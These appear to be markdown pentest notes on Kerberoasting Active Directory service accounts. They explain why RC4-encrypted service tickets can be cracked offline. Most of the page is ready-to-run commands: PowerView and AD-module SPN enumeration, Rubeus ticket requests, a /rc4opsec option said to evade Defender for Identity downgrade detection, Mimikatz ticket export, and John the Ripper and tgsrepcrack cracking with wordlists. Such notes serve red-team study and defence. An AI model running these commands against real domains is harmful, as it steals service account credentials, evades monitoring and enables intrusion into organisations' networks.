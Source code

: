 ```yaml
---
tags:
  - privesc
cssclasses:
  - Rubeus
  - MimiKatz
  - john
  - TGS-REP
---
```

- [Offline cracking of service account passwords.](https://www.redsiege.com/wp-content/uploads/2020/08/Kerberoastv4.pdf)
- The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this is a good attack vector.
- An important point to note is that we need a service ticket that is encrypted with an NTLM hash (RC4) and not AES, which uses a salt. Bruteforcing the AES key would be extremely difficult.
- The DC will, however, oblige to the client's requests of using a ticket with downgraded encryption. Unless RC4 is disabled throughout the forest.
#### Obtaining tickets

```powershell title:"Find user accounts used as service accounts (PowerView)"
Get-DomainUser -SPN
```

```powershell title:"Find user accounts used as service accounts (ActiveDirectory Module)"
Get-ADUser -Filter {ServicePrincipleName -ne "$null"} -Properties ServicePrincipalName
```

```batch title:"Use Rubeus to list Kerberoast stats"
Rubeus.exe kerberoast /stats
```

```batch title:"Use Rubeus to request a TGS"
Rubeus.exe kerberoast /user:username /simple
```

```batch title:"To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC"
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:username /simple /rc4opsec
```

```batch title:"Kerberoast all possible accounts"
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

#### Cracking

```batch title:"Crack the ticket"
john.exe --wordlist:C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

#### Misc.

```batch title:"Check if the ticket has been granted"
klist.exe
```

```powershell title:"Export all tickets using Mimikatz (that were imported via /ptt)?"
Invoke-MimiKatz -Command '"kerberos::list /export"'
```

```batch title:"Crack the service account password"
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt 'tgs_file_name.kirbi'
```
